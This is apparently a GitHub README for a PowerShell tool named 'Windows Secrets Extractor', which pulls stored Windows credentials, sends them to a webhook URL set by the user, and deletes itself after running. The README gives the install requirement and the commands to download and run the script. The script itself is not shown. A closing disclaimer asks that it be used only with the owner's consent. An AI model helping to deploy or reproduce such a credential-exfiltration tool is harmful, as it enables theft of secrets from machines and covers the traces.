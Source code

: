 # Windows Secrets Extractor


### Requirements
- PowerShell **CredentialManager** Module : ``Install-Module -Name CredentialManager``


### Before Usage
- Adapt line 1 and enter your WebHook URL.

### Usage
1. Download the script :

```
Invoke-WebRequest <URL> -outfile $env:USERPROFILE\extractor.ps1
```

3. Run the Script :

```
cd $env:USERPROFILE;.\extractor.ps1
```

Note: the script self-destructs after execution

***
Be careful, I am not responsible for your use of this script.
Please do not use it against machines whose owner has not given you their consent
